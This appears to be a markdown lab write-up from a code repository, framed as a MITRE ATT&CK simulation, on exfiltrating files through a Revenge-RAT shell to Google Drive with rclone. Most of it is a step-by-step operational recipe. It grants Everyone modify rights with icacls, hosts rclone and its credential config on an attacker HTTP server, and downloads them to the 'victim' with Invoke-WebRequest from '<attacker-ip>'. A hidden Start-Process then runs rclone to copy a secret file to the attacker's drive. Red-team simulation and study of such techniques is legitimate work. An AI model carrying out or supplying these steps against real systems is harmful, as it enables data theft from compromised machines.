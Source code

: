 ## MITRE ATT\&CK Exfiltration Simulation via Google Drive using **rclone**

We can exfiltrate data using RAT built in download functionality already, it will then save into **E:\Hacking\Tools\Revenge-RAT v0.3\Users\User_name\downloads**. But to simulate it through powershall I deep dive into this. I tried many ways, I tried to built a http server using flask, and then through port forwarding I tried to send files there. But as the RAT doesn't have write access thats why I didn't manage to do it then. Then I tried to do it directly via gdrive, but I faced typos there. Then I tried rclone, to do so it is better to use own drive. And for this I followed **https://console.cloud.google.com/auth/clients?inv=1&invt=AbxtVQ&project=theta-totem-446705-j3** this link, to get the client id and client secret, then I use it later while setting rclone. Here is the following steps to do exfiltration:
---
### 0. Give Write Access To a Folder
To give a folder **write access**, especially from a script or RAT shell (with limited UI or feedback), you can use PowerShell or `icacls` commands to set permissions. Here's how:

---

## Method: Use `icacls` to Grant Write Access

```cmd
icacls "C:\Your\Target\Folder" /grant Everyone:(OI)(CI)M
```

### Breakdown:

* `Everyone`: Grants access to all users (you can replace with a specific user if needed).
* `(OI)(CI)`: Applies to **files and subfolders** (Object Inherit + Container Inherit).
* `M`: Stands for **Modify**, which includes read/write permissions.

---

## Example:

To make `C:\PublicRAT` writeable:

```cmd
mkdir C:\PublicRAT
icacls "C:\PublicRAT" /grant Everyone:(OI)(CI)M
```

Now your RAT shell should be able to **write files there**, e.g.:

```cmd
cmd.exe /c echo Hello > C:\PublicRAT\test.txt
```

### 1. **Prepare on Attacker Machine**

* Download `rclone` from: [https://rclone.org/downloads/](https://rclone.org/downloads/)
* Extract it somewhere like:
  `E:\Hacking\rclone-v1.69.2-windows-amd64\`

---

### 2. **Configure `rclone` with Google Drive**

In your **attacker machine's terminal**, run:

```bash
rclone config
```

Follow these steps:

1. Type `n` for a new remote.
2. Name it something like: `myStorage`
3. Choose storage type: `drive` (20 for Google Drive)
4. Follow the prompts to authenticate via browser (use your Google account).
5. At the end, type `y` to confirm, then `q` to quit.

This process generates the config file. Then try this command to find the actual location:

```bash
rclone config file
```

It will output something like:

```
Configuration file is stored at: C:\Users\Niloy\.config\rclone\rclone.conf
```

That’s the file you need to send to the victim. Once you find it, copy it to the folder where `rclone.exe` is located (on attacker machine) so you can send both files to the victim:


Then transfer both:

* `rclone.exe`
* `rclone.conf`

to the victim’s machine via the RAT.

---

### 3. **Host Files for Victim to Pull**

To simulate real-world behavior and avoid direct upload via RAT:

1. Copy `rclone.exe` and `rclone.conf` to a web-accessible server or local HTTP server:

   * E.g., start a server:

     ```bash
     python -m http.server 8000
     ```

     In directory where `rclone.exe` and `rclone.conf` are located.

---

### 4. **Use RAT (PowerShell Shell) to Download Files on Victim**

Go through **File Manager** to the expected folder and upload the **reclone.conf**, as it is small in size that's why we can upload it directly via RAT. But as the **rclone.exe** is big in size, thats why we need to send it via power shall. From attacker, send PowerShell commands via RAT. You can do the same for the **rclone.conf** also.

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.exe" -OutFile "C:\ProgramData\rclone.exe"
# Invoke-WebRequest -Uri "http://<attacker-ip>:8000/rclone.conf" -OutFile "C:\ProgramData\rclone.conf"
```

Now `rclone.exe` and its config are on the **victim system**.

---

### 5. **Exfiltrate File Using `rclone` Remotely**

Send via RAT: 

```powershell
Start-Process -WindowStyle Hidden -FilePath "C:\ProgramData\rclone.exe" -ArgumentList 'copy "C:\Users\Public\Documents\secret.txt" myStorage:/ --config "C:\ProgramData\rclone.conf"'
```

Notes:

* `myStorage` is the name you used during `rclone config`.
* You can exfiltrate any file the user has permission to read.

---

### 6. **Check Google Drive**

Your file (e.g., `secret.txt`) should now appear in the root of your Google Drive. You need to wait some minutes (1-2) to get the file there.

---

### MITRE ATT\&CK Coverage:

![alt text](flow.png)

| Tactic              | Technique                                 | Description                         |
| ------------------- | ----------------------------------------- | ----------------------------------- |
| Execution           | T1059 - Command and Scripting Interpreter | PowerShell shell via RAT            |
| Ingress Tool        | T1105 - Ingress Tool Transfer             | Download `rclone.exe` and `.conf`   |
| Exfiltration        | T1567.002 - Exfil to Cloud Storage        | Send files to Google Drive          |
| Persistence/Stealth | T1027 - Obfuscated Files or Info          | Using trusted tools like PowerShell |